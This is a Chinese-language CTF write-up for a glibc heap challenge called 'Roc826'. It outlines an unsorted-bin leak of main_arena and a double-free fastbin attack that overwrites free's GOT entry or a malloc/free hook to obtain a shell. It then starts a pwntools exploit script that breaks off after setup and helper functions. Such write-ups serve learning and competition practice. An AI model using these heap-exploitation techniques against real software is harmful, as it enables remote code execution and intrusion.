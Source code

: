 这题是堆的入门级别的题目，然鹅我并不会做堆的题，所以比赛时没做，后来照着官方wp赶紧学习一波

#### 0x0 背景姿势

- glibc (<2.27)堆分配的策略：即 first-fit。在分配内存时,malloc 会先到 unsorted bin(或者fastbins) 中查找适合的被 free 的 chunk,如果没有,就会把 unsorted bin 中的所有 chunk 分别放入到所属的 bins 中,然后再去这些 bins 里去找合适的 chunk。可以看到第三次 malloc 的地址和第一次相同,即 malloc 找到了第一次 free 掉的chunk,并把它重新分配。
- fast chunk表示正在使用的长度在`32-160`(32位系统是`16-80`)的堆块，而fastbin表示长度在`32-180`范围内的已经释放的堆块

#### 0x1 漏洞利用

- `unsorted bin leak` ：泄漏`main_arena`地址（即`__malloc_hook-0x68`）

- `double free`：`fastbin attack`覆写`free`的`got`表为`system`地址，或者改`free_hook`为`one_gadget`都可以`getshell`

#### 0x2 exp
  ```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './Roc826'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc-2.23.so'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def add(size,cont='aaaa'):
    sla(':','1')
  ```